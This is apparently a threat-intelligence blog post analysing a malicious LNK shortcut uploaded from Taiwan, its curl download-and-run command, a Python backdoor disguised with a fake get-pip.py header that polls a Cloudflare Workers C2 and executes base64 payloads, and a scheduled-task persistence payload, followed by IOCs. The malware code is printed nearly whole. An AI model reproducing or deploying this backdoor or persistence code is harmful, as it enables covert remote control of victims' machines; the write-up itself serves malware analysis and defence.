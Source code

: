 ```yaml
---
title: Python Backdoor Uploaded from Taiwan
by: dmpdump
tags: cti malware python
---
```


On April 18, 2025, I came across an interesting LNK file uploaded from Taiwan (f4bb263eb03240c1d779a00e1e39d3374c93d909d358691ca5386387d06be472), which I subsequently found had been initially discovered by [@NtAlertThread](https://x.com/ElementalX2/status/1913247237771083802). Props to him for the discovery.
The LNK file in question is named `2025416-方案1-方案細節.pdf.lnk`, which translates to `2025416-Scheme 1-Scheme details.pdf.lnk`. The file was uploaded from Taiwan on April 18, 2025.

![sshot](/assets/images/bdoor_tw/vt.png)

 This shortcut file is a simple curl downloader for a next stage executable. The executable, named `setup.exe`, is downloaded from `mail[.]9kyd.com/skins` to `C:\Users\Public\Downloads`.

```batch
/c ^c^u^r^l https://mail[.]9kyd.com/skins/setup.exe -o C:\Users\Public\Downloads\setup.exe && (^s^t^a^r^t /^B C:\Users\Public\Downloads\setup.exe)
```
According to the LNK metadata, it was created on a machine named `desktop-8g6b11u` on April 13, 2025.

![sshot](/assets/images/bdoor_tw/lnk_meta.png)

`Setup.exe` (4e256572e001b76872074878f8ecd2be3f237c9b3a18d0059e2f4a3888579b5b) is an installer created with Indigo Rose Software Setup Factory. In the past, I saw multiple Gh0stRAT samples targeting Chinese-speaking users using this installer. Indigo Rose's Setup Factory supports Lua scripting to configure the installation process.

![sshot](/assets/images/bdoor_tw/indigo.png)

Upon execution, the installer drops files to `C:\Users\%USER%\AppData\Roaming\AcrobatReader\`, including the Python runtime environment and a decoy PDF. The installer opens the decoy PDF, named `document.pdf`, which contains illegible content, and runs a python script named `setup.py`.

Excerpt from the PDF content:

![sshot](/assets/images/bdoor_tw/pdf.png)

Dropped files:

![sshot](/assets/images/bdoor_tw/dropped.png)


# Backdoor

The `setup.py` script is a very simple backdoor that uses Cloudflare Workers as command and control infrastructure. The backdoor:
* Runs a continuous loop with a delay which starts a new thread and runs the `mythread()` function
* Makes a request to the C2 `eip.netask.workers[.]dev` and reads the response
* Checks if the response is GZIP-compressed. If it is, it decompresses it
* It converts the response to UTF-8
* If the length of the response is longer than 2 characters, it base64-decodes it and executes it, skipping the first 2 characters

```python
#!/usr/bin/env python
#
# Hi There!
#
# You may be wondering what this giant blob of binary data here is, you might
# even be worried that we're up to something nefarious (good for you for being
# paranoid!). This is a base85 encoding of a zip file, this zip file contains
# an entire copy of pip (version 24.0).
#
# Pip is a thing that installs packages, pip itself is a package that someone
# might want to install, especially if they're looking to run this get-pip.py
# script. Pip has a lot of code to deal with the security of installing
# packages, various edge cases on various platforms, and other such sort of
# "tribal knowledge" that has been encoded in its code base. Because of this
# we basically include an entire copy of pip inside this blob. We do this
# because the alternatives are attempt to implement a "minipip" that probably
# doesn't do things correctly and has weird edge cases, or compress pip itself
# down into a single file.
#
# If you're wondering how this is created, it is generated using
# `scripts/generate.py` in https://github.com/pypa/get-pip.

import copy
import datetime
import html
import http.client
import io
import mimetypes
import os
import posixpath
import select
import shutil
import sys,time,_thread,urllib.request,base64,random
total, used, free = shutil.disk_usage("/")
sid = str(total%9999)

stime=60
url = "hxxps://eip.netask.workers[.]dev/"
hdr = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36',
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
	'Accept-Language':'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
	'Accept-Encoding':'gzip, deflate, identity',
	'Session':sid,
	'DNT':'1',
	'Cookie':'',
	'Sec-Fetch-Dest':'empty',
	'Sec-Fetch-Mode':'cors',
	'Sec-Fetch-Site':'same-origin'
}

def mythread(axcs):
	print('mythread...')
	try:
		hdr['Cookie']=''
		req = urllib.request.Request(url, headers=hdr)
		response = urllib.request.urlopen(req)
		
		rsph = response.info()
		if ('Content-Encoding' in rsph and rsph['Content-Encoding'] == 'gzip') or ('content-encoding' in rsph and rsph['content-encoding'] == 'gzip'):
			import gzip
			content = gzip.decompress(response.read())
		else:
			content = response.read()
		html = content.decode('utf-8').strip()
		if len(html) > 2:
			exec(base64.b64decode(html[2:]).decode())
	except Exception as ex:
		print(ex)

try:
	while True:
		print('...:',stime)
		i = 0
		while i < stime:
			time.sleep(1)
			i = i + 1
		_thread.start_new_thread( mythread, (1, ) )
except:
	pass

```
In order to get additional payload without executing it, I modified the `mythread()` function to write the payload to disk instead of executing it:

```python
 rsph = response.info()
        if ('Content-Encoding' in rsph and rsph['Content-Encoding'] == 'gzip') or ('content-encoding' in rsph and rsph['content-encoding'] == 'gzip'):
            import gzip
            content = gzip.decompress(response.read())
        else:
            content = response.read()
        content_text = content.decode('utf-8').strip()  
        if len(content_text) > 2:
            payload = base64.b64decode(content_text[2:])
            timestamp = datetime.datetime.now().strftime("%Y%m%d_%H%M%S")
            filename = f"payload_{timestamp}.bin"
            with open(filename, "wb") as f:
                f.write(payload)
            print(f"Payload saved to {filename}")
```

After some initial requests without any reponses, I obtained two payloads:

![sshot](/assets/images/bdoor_tw/response.png)

The first payload I received is a Python script which creates a Visual Basic persistence script named `start.vbs`. The script searches for the running processes, if it finds that python.exe is running, it exits. If it is not running, it runs the initial setup.py (the backdoor) with python.exe. Additionally, it creates a scheduled task named `TaskMachineCore`, which runs every 10 minutes, executing the newly created `start.vbs` persistence script.

```python
pwd = os.path.abspath(os.path.dirname(__file__))
fvb2 = pwd+'\\start.vbs'
fp=open(fvb2,'w')
fp.write('''set ii = getobject("winmgmts:win32_process").instances_
for each p in ii
if p.name = "python.exe" then
WScript.Quit
end if
next
''')
fp.write('CreateObject("WScript.Shell").Run "'+pwd+"\\python.exe "+pwd+"\\setup.py"+'",0')
fp.close()

name = os.path.abspath(os.path.dirname(__file__))
os.system('Schtasks /create /tn TaskMachineCore /tr '+fvb2+' /sc MINUTE /mo 10 /F')
```
The second payload simply modifies the sleep time of the backdoor through the modification of the `stime` variable, changing it from the default value of 60 seconds (1 minute) to 3600 (one hour).

```python
global stime
stime=3600
```

# IOCs
* 2025416-方案1-方案細節.pdf.lnk: f4bb263eb03240c1d779a00e1e39d3374c93d909d358691ca5386387d06be472
* Payload hosting site: mail[.]9kyd.com/skins
* Setup.exe: 4e256572e001b76872074878f8ecd2be3f237c9b3a18d0059e2f4a3888579b5b
* Setup.py: 6721f5c45548b75af91526bf0afc83dd0017572453e3a37bd95b8b6ac98b9746
* C2: https://eip.netask.workers[.]dev:443